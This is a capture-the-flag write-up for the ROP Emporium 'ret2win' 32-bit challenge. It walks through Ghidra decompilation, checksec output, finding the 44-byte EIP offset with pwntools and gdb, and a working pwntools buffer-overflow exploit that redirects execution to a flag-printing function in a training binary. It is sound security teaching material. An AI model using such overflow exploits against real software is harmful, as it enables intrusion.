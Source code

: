 ## Ret2win

### Challenge : ret2win means 'return here to win' and it's recommended you start with this challenge. Visit the challenge page by clicking the link above to learn more.
---

Challenge Description
```
These challenges use the usual CTF objective of retrieving the contents of a file named "flag.txt" from a remote machine by exploiting a given binary. The two most common courses of action are to somehow read flag.txt back to us directly or drop a shell and read it yourself. Let's see if ret2win has an easy way to do either of these. We'll use the following nm one-liner to check method names. nm ret2win|grep ' t ' will tell us that the suspiciously named function 'ret2win' is present and r2 confirms that it will cat the flag back to us

```
---
TLDR:

We overflow a stack, so that we can change EIP to call a required function to get the flag

---

So basically, to exploit the binary and get the flag, we need to call the ret2win function.

Decompiling the main function in ghidra, we get
```

undefined4 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("ret2win by ROP Emporium");
  puts("32bits\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```
There's a `pwnme` function, we need that too.
```

void pwnme(void)

{
  char local_2c [40];
  
  memset(local_2c,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stackbuffer;\nWhat could possibly go wrong?"
      );
  puts(
      "You there madam, may I have your input please? And don\'t worry about null bytes, we\'reusing fgets!\n"
      );
  printf("> ");
  fgets(local_2c,0x32,stdin);
  return;
}
```

There's a clear Buffer Overflow vulnerability.

Lets' check the security implementations of the binary
```
checksec ret2win32                                                    Sat 11 May 2019 01:21:54 IST
[*] '/ropemporium/ret2win/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
With `NX Enabled` we can't execute a injected shellcode. So, we use ROP. 

Let's start with finding the offset to control EIP. 

Use pwntools to generate a cyclic string
```
python2                                                         Sat 11 May 2019 01:30:29 IST
Python 2.7.15+ (default, Oct  2 2018, 22:12:08) 
[GCC 8.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(200)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
```

Use the generated string to cause the program to crash. 

```
gdb ./ret2win32 -q                                            732ms  Sat 11 May 2019 01:30:12 IST
[----------------------------------registers-----------------------------------]
EAX: 0xffffd540 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaam")
EBX: 0x0 
ECX: 0xf7fa889c --> 0x0 
EDX: 0xffffd540 ("aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaam")
ESI: 0xf7fa7000 --> 0x1dcd6c 
EDI: 0xf7fa7000 --> 0x1dcd6c 
EBP: 0x6161616b ('kaaa')
ESP: 0xffffd570 --> 0xf7fe006d (or     BYTE PTR [ebp+0x3c8d490c],cl)
EIP: 0x6161616c ('laaa')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x6161616c
[------------------------------------stack-------------------------------------]
0000| 0xffffd570 --> 0xf7fe006d (or     BYTE PTR [ebp+0x3c8d490c],cl)
0004| 0xffffd574 --> 0xffffd590 --> 0x1 
0008| 0xffffd578 --> 0x0 
0012| 0xffffd57c --> 0xf7de4b41 (<__libc_start_main+241>:       add    esp,0x10)
0016| 0xffffd580 --> 0xf7fa7000 --> 0x1dcd6c 
0020| 0xffffd584 --> 0xf7fa7000 --> 0x1dcd6c 
0024| 0xffffd588 --> 0x0 
0028| 0xffffd58c --> 0xf7de4b41 (<__libc_start_main+241>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x6161616c in ?? ()
```

locate the crash location to find the offset

```
>>> cyclic_find(0x6161616c)
44
```

The offset is `44`.

Now for the exploit. I'll be using pwntools, to generate the exploit. We use pwntools, to find the location of the function, write it to the EIP and get the flag. 

```
from pwn import *

elf = context.binary = ELF('ret2win32')   #get the binary
info("TARGET : %#x", elf.symbols.ret2win) #print the location of ret2win

io = process(elf.path) #start the binary
ret2win = p32(elf.symbols.ret2win)
payload = "A"*44 + ret2win 
io.sendline(payload)
io.recvuntil("flag:")
flag = io.recvline()
success(flag)
```
`exploit.py`
```
python2 exploit.py                                            10.9m  Sat 11 May 2019 01:41:15 IST
[*] '/ropemporium/ret2win/ret2win32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] TARGET : 0x8048659
[+] Starting local process '/ropemporium/ret2win/ret2win32': pid 22757
[+] ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/ret2win/ret2win32' (pid 22757)
```
For reference, here's a picture of function call stack.

![Image](stackframe.gif)